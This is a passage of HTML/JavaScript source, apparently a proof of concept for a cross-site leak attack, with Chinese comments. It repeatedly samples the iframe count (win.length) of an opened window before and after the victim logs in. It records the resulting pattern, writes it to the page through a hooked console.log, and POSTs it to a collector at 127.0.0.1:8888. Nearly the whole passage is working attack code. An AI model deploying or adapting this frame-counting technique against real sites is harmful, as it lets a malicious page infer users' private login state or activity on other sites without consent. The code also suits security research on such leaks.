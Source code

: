 ```jsx
      }, 6 * 1000);
  
      //12秒后等待用户登录后再记录iframe
      setTimeout(twiceOpen,12 * 1000);
      function twiceOpen(){
        var pattern2 = [];
        // In a loop, register the number of iframes at 60ms interval
        var recorder = setInterval(() => {
          pattern2.push(win.length)
        }, 60);
  
        // Break the loop after 18 seconds
        setTimeout(() => {
           clearInterval(recorder);
           console.log("The pattern2 is: ", pattern2.join(', '));
        }, 6 * 1000);
      }
    </script>

    <!--打印读取页面iframe数-->
    <div class="sm-item" id="data">
    </div>
    <input type="submit" value="submit" onclick="submit()">
    <p id="result"></p>

    <script>
      //将控制台内容打印在div,pre内（打印在页面上）
      (function () {
        var old = console.log;
        var logger = document.getElementById('data');
        console.log = function () {
          for (var i = 0; i < arguments.length; i++) {
            if (typeof arguments[i] == 'object') {
                logger.innerHTML += (JSON && JSON.stringify ? JSON.stringify(arguments[i], undefined, 2) : arguments[i]) + '<br />';
            } else {
                logger.innerHTML += arguments[i] + '<br />';
            }
          }
        }
    })();
    </script>
    
    <script type="text/javascript">
        function submit(){
          //发送ajax请求

          var data = document.getElementById('data').innerHTML;
          var ajax = new XMLHttpRequest();

          ajax.open('post','<http://127.0.0.1:8888/test.json>',true)
          ajax.send(data)

          ajax.onreadystatechange = function(){
            if(ajax.readyState ==4 && ajax.status ==200){
                //本次请求成功
                document.getElementById("result").innerHTML = "sucesss" 
            }else{
                //本次请求失败
                document.getElementById("result").innerHTML = "fail" 
            }
          }
        }
```